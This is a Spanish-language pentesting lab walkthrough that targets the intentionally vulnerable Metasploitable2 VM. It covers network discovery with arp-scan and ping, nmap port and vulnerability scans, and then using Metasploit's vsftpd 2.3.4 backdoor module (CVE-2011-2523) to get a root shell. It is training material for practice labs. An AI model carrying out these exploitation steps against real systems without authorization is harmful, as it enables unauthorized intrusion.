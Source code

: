 # Uso Básico de Metasploit – Explotación vsftpd en Linux

**Vamos a usar la maquina virtual vulnerable Metasploitable2 se trata de una máquina que presenta multitud de vulnerabilidades, lo que nos permite practicar pentesting de una forma sencilla.**

![image.png](./imagenes/image.png)

En nuestra maquina Linux hacemos un **arp-scan para ver que equipos hay en nuestra red** local.

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%201.png)

- En este caso tenemos dos IPs que que pueden ser nuestro maquina victima. V**amos a hacer una traza "ICMP Echo Request” mediante un Ping** y veremos su respuesta a la  verificación si ese dispositivo está accesible en la red . Y **mediante el TTL de respuesta** intentar **saber de que dispositivos se tratan**.
    
    ```bash
    ping -c 1 10.0.3.3
    ```
    
    ![image.png](./imagenes/image%202.png)
    

```bash
ping -c 1 10.0.3.7
```

![image.png](./imagenes/image%203.png)

Como vemos en la **IP 10.0.3.3 el TTL es 255, a**lgunos **dispositivos de red** suelen usar TTL  255 como TTL inicial predeterminado. 

**IP 10.0.3.7 el TTL es 64, a**lgunos **dispositivos Linux** usan 64 como TTL inicial predeterminado.

- Seguidamente después de localizar la IP de nuestra maquina victima . Vamos a hacer un **reconocimiento de puertos con NMAP**.
    
    ```bash
    nmap -p- --open -sS -sC -sV -min-rate 2000 -n -vvv -Pn 10.0.3.7 -oN escaneo
    ```
    
    ![image.png](./imagenes/image%204.png)
    

Como vemos esta maquina tiene muchos puerto abiertos (Mirar Apéndice: Puertos y Servicios más Comunes). 

Vamos a escoger por ejemplo el **puerto 21 que es donde corre el FTP**.

![image.png](./imagenes/image%205.png)

Probamos si tiene alguna vulnerabilidad.

```bash
nmap --script "vuln" -p21 10.0.3.7
```

![image.png](./imagenes/image%206.png)

- Abrimos el Metasploit
    
    ![image.png](./imagenes/image%207.png)
    

Buscamos la vulnerabilidad a través del CVE

`search CVE-2011-2523`

![image.png](./imagenes/image%208.png)

Nos encontramos que no encuentra nada. Esto puede ser por varias razones, a veces dentro del exploit no viene con con el CVE y si viene con el nombre del servicio. Debemos entonces buscar de otras formas por ejemplo vamos a buscar por el servicio y versión que esta corriendo en el puerto.

![image.png](./imagenes/image%209.png)

`search vsFTP 2.3.4`

![image.png](./imagenes/image%2010.png)

`use 0`

![image.png](./imagenes/image%2011.png)

`show options`

![image.png](./imagenes/image%2012.png)

Vamos a rellenar los parámetros obligatorios (si sabemos algún datos de los no obligatorios también debemos rellenarlo para mejorar la posibilidad de éxito).

`set RHOSTS 10.0.3.7`

`show options`

![image.png](./imagenes/image%2013.png)

**NOTA:** El servicio **FTP** por defecto corre en el puerto 21 pero puede darse el caso que en alguna maquina el servicio corra en otro puerto por tanto **debemos verificar que el puerto RPORT sea el correcto**.

Ejecutamos el exploit: `run`

![image.png](./imagenes/image%2014.png)

**NOTA:** Cuando hacemos una intrusión el puerto que se utiliza es un puerto al azar. El puerto 21 solo se utiliza para entrar.

Miramos que clase de usuario soy con el comando `whoami` y lanzamos una shell para movernos mejor.

`whoami`

`shell`

![image.png](./imagenes/image%2015.png)

**Ya estaríamos dentro con privilegios de Root**.